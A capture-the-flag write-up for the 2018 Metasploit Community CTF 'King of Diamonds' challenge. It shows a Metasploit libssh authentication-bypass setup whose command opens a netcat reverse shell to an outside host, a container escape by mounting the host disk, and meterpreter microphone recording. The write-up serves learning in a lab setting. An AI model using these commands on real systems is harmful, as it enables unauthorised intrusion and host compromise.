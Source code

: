# King of Diamonds - port 2222

This was the only one on the Ubuntu box that I didn't solve during the CTF, even though I was very close, and the reason was good learning for myself so I don't forget these things in the future.

This was also the box used to escape the container and get into the host filesystem, as described in the [Ubuntu README](https://github.com/ant0/ctf_writeups/tree/master/2018_metasploit_community_ctf/ubuntu#shell-on-ubuntu-host).

I don't have notes written down, but the service on this port was using `libssh` and there was a very easy msf exploit to find.

	use auxiliary/scanner/ssh/libssh_auth_bypass
	set cmd nc 172.16.4.84 6666 -e /bin/sh
	set rhosts 172.16.4.85
	set rport 2222

However, once we got a shell then there was really nothing interesting on the box. I even did a `find .` and slowly went through all files without finding anything useful. Eventually we check what's happening with `mount`:

```
mount
none on / type aufs (rw,relatime,si=1d3b72e49a90ac7e,dio,dirperm1)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /sys/fs/cgroup type tmpfs (rw,nosuid,nodev,noexec,relatime,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (rw,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/hugetlb type cgroup (rw,nosuid,nodev,noexec,relatime,hugetlb)
cgroup on /sys/fs/cgroup/cpuset type cgroup (rw,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/memory type cgroup (rw,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/pids type cgroup (rw,nosuid,nodev,noexec,relatime,pids)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
udev on /dev/snd type devtmpfs (rw,nosuid,relatime,size=1002176k,nr_inodes=250544,mode=755)
/dev/xvda1 on /etc/resolv.conf type ext4 (rw,relatime,discard,data=ordered)
/dev/xvda1 on /etc/hostname type ext4 (rw,relatime,discard,data=ordered)
/dev/xvda1 on /etc/hosts type ext4 (rw,relatime,discard,data=ordered)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
```

There is something a little odd here, do you see it?

```
df
Filesystem           1K-blocks      Used Available Use% Mounted on
none                   8065444   6384520   1664540  79% /
tmpfs                  1023148         0   1023148   0% /dev
tmpfs                  1023148         0   1023148   0% /sys/fs/cgroup
udev                   1002176         0   1002176   0% /dev/snd
/dev/xvda1             8065444   6384520   1664540  79% /etc/resolv.conf
/dev/xvda1             8065444   6384520   1664540  79% /etc/hostname
/dev/xvda1             8065444   6384520   1664540  79% /etc/hosts
shm                      65536         0     65536   0% /dev/shm
```

This shows it even better, which is that it's odd that devices are mounted on normal files used by system. This means that wherever the `/etc` files are coming, is probably somewhere that is helping to configure/control this box. Even more interesting are the options given in brackets, looks like even read/write is available!

We try mounting `/dev/xvda1` to a new directory we create.

```
mount -o rw,relatime,discard,data=ordered /dev/xvda1 /test
```

It worked and now we can see the filesystem of the Ubuntu host.

```
ls /test
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```

We also verified it was the host, and could now easily capture other flags:

	Linux ip-172-16-4-85 4.4.0-139-generic #165-Ubuntu SMP Wed Oct 24 10:58:50 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

But for the King of Diamonds itself, it was still well hidden. Two hints from Metasploit were:

There are two `king_of_diamonds` hints:

> The flag flies both in time and space,
> Though no one's sure quite when or where.
> New kids at school feel out of place.
> Their voices are loud. But to you, I DFIR.

> I hear you singing in the wire
> I can hear you through the whine
> And the King of Diamonds, is still on the line!
> .. .. .. ..

This heavily hints at some kind of audio/forensic task. I got a meterpreter shell and from the available commands, an interesting one was to start recording from the microphone using `mic_start`. After recording it for a little while and playing it back, I could hear music then some kind of static noise. This would keep on looping. I was pretty convinced that this "static noise" was actually the flag data and I was (almost) right.

![static noise](static_noise.png)

When I cut the audio to only have the static noise, I could not find any trace of PNG signatures. It eventually transpired that Meterpreter uses `arecord` under the hood, but uses a sample rate of 11025Hz. The original recording is 44100Hz, so there was major data lost with my recording! It should have been recording at CD quality, i.e. 44100Hz.

![sample rate](msf_recording_sample_rate.png)

So if I had used `arecord` to capture the audio, which was a binary on the box, then I would have been able to cut out the static noise and stick it all together to re-create the image. Apparently using meterpreter to hear the audio was some kind of side-effect and not intended to work.

The other solution was to trace the audio back to the source, which was a binary called `corey` in the Ubuntu host. This could have been found by looking at system logs, or using `tcpdump` to trace to the source of the audio. From the binary you could directly extract the image using `foremost`, which is a tool that I think is actually better than `binwalk`.

Oh well! Lesson learnt, and it will teach me to always question and validate my thoughts better. I should have thought more of why I wasn't finding a PNG signature in the audio, and if I had taken the time to enumerate more and explore all options (I had seen `arecord` and flagged, but didn't follow up) then I would have definitely solved this one.

> "Go slow in order to go fast."

![king of diamonds](king_of_diamonds.png)